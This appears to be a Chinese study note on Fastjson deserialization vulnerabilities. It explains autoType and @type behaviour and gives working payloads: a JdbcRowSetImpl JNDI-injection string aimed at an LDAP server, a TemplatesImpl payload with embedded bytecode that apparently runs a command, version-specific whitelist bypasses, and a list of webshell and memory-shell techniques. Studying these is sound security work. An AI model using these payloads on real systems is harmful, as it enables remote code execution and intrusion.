

# FastJson是什么

> Fastjson是阿里巴巴公司开源的一款json解析器，它可以解析 JSON 格式的字符串，支持**将 Java Bean 序列化为 JSON 字符串，也可以从 JSON 字符串反序列化到JavaBean**。


# FastJson反序列化漏洞

## 原理

> 1.2.24：fastjson在解析json的过程中，支持使用`autoType`来实例化**某一个具体的类**，并调用该类的`setter/getter`方法来访问属性。通过查找代码中相关的方法，即可构造出一些恶意利用链。 
>
> 1.2.47：fastjson于1.2.24版本后增加了反序列化白名单，而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

### User类

```java
public class User {
    private String name;
    private int id;

    public User(){
        System.out.println("无参构造");
    }

    public User(String name, int id) {
        System.out.println("有参构造");
        this.name = name;
        this.id = id;
    }

    @Override
    public String toString() {
        return "User{" +
                "name='" + name + '\'' +
                ", id=" + id +
                '}';
    }

    public String getName() {
        System.out.print("getName");
        return name;
    }

    public void setName(String name) {
        System.out.println("setName");
        this.name = name;
    }

    public int getId() {
        System.out.println("getId");
        return id;
    }

    public void setId(int id) {
        System.out.println("setId");
        this.id = id;
    }
}
```

### 序列化

```java
JSON.toJSONString(class);
```

```java
User user = new User("lihua",3);
String json = JSON.toJSONString(user);
System.out.println(json);
```

> 序列化时会自动调用`Getter`方法


```java
User user = new User("lihua",3);
String json = JSON.toJSONString(user, SerializerFeature.WriteClassName);
System.out.println(json);
```

> 传入`SerializerFeature.WriteClassName`可以使得Fastjson支持自省，开启自省后序列化成JSON的数据就会多一个@type，这个是代表对象类型的JSON文本。



`@type` 指定类，其他为该类`Getter`方法返回的类属性


### 反序列化

```java
JSON.parse(json) 
JSON.parseObject(json,class) 
```

只有在指定是哪一个类的前提下

> 使用`JSON.parse`反序列化会调用此类的set方法
>
> 使用`JSON.parseObject`反序列化会调用此类的get和set方法


如何指定一个类

- json中使用@type指定

  ```java
  String json = "{\"@type\":\"User\",\"id\":3,\"name\":\"lihua\"}";
  ```

  

- `parseObject`中的第二个参数指定

  ```java
  JSON.parseObject(json2, User.class)
  ```

  


## Payload

### JdbcRowSetImpl链

> 本质是JNDI注入，jdk版本需要满足 8u161 < jdk < 8u191

```json
{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/g0tvin","autoCommit":true}
```

> `setDataSourceName`方法把传进去的值赋给`dataSource`
>
> `setautoCommit`方法需要传入一个布尔类型的参数，跟进connect方法，`lookup(getDataSourceName())` lookup函数链接我们写入的服务 加载我们的恶意类


### TemplatesImpl链

> 加载java字节码并实例化，可以通过该链注入内存马

局限性


```json
{"@type":"com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl","_bytecodes":["yv66vgAAADQAJAoAAwAPBwARBwASAQAGPGluaXQ+AQADKClWAQAEQ29kZQEAD0xpbmVOdW1iZXJUYWJsZQEAEkxvY2FsVmFyaWFibGVUYWJsZQEABHRoaXMBAAR0ZXN0AQAMSW5uZXJDbGFzc2VzAQAiTGNvbS9oZWxsby9kZW1vL2pzb24vSkRLN3UyMSR0ZXN0OwEAClNvdXJjZUZpbGUBAAxKREs3dTIxLmphdmEMAAQABQcAEwEAIGNvbS9oZWxsby9kZW1vL2pzb24vSkRLN3UyMSR0ZXN0AQAQamF2YS9sYW5nL09iamVjdAEAG2NvbS9oZWxsby9kZW1vL2pzb24vSkRLN3UyMQEACDxjbGluaXQ+AQARamF2YS9sYW5nL1J1bnRpbWUHABUBAApnZXRSdW50aW1lAQAVKClMamF2YS9sYW5nL1J1bnRpbWU7DAAXABgKABYAGQEABGNhbGMIABsBAARleGVjAQAnKExqYXZhL2xhbmcvU3RyaW5nOylMamF2YS9sYW5nL1Byb2Nlc3M7DAAdAB4KABYAHwEAQGNvbS9zdW4vb3JnL2FwYWNoZS94YWxhbi9pbnRlcm5hbC94c2x0Yy9ydW50aW1lL0Fic3RyYWN0VHJhbnNsZXQHACEKACIADwAhAAIAIgAAAAAAAgABAAQABQABAAYAAAAvAAEAAQAAAAUqtwAjsQAAAAIABwAAAAYAAQAAACoACAAAAAwAAQAAAAUACQAMAAAACAAUAAUAAQAGAAAAFgACAAAAAAAKuAAaEhy2ACBXsQAAAAAAAgANAAAAAgAOAAsAAAAKAAEAAgAQAAoACQ=="],'_name':'exp','_tfactory':{ },"_outputProperties":{ }}
```


### 版本

> Fastjson在不同版本下的利用方式很不同，所以存在Fastjson漏洞时，首要判断Fastjson的版本。

#### 1.2.24

```json
{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"xxx://xxx/xx",
        "autoCommit":true
    }
}
```

#### 1.2.25--1.2.47

```json
{
    "a":{
        "@type":"java.lang.Class",
        "val":"com.sun.rowset.JdbcRowSetImpl"
    },
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"xxx://xxx/xxx",
        "autoCommit":true
    }
}
```

#### 1.2.48--1.2.68

#### 1.2.80


# 不出网利用

- TemplatesImpl链注入内存马，TemplatesImpl链限制多，不容易遇到

- Commons-io 写文件/webshell  低版本

  限制：fastjson<1.2.68

- BECL攻击，命令执行/内存马

  限制：Java 8u251以后，bcel类被删除
  
- C3P0**反序列化**

- 命令执行结果写到静态目录下


# 推荐阅读

新姿势https://github.com/luelueking/CVE-2022-25845-In-Spring

[第18篇：fastjson反序列化漏洞区分版本号的方法总结 (qq.com)](https://mp.weixin.qq.com/s/5mO1L5o8j_m6RYM6nO-pAA)

[safe6Sec/Fastjson: Fastjson姿势技巧集合](https://github.com/safe6Sec/Fastjson)

[Fastjson不出网利用总结 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/12492)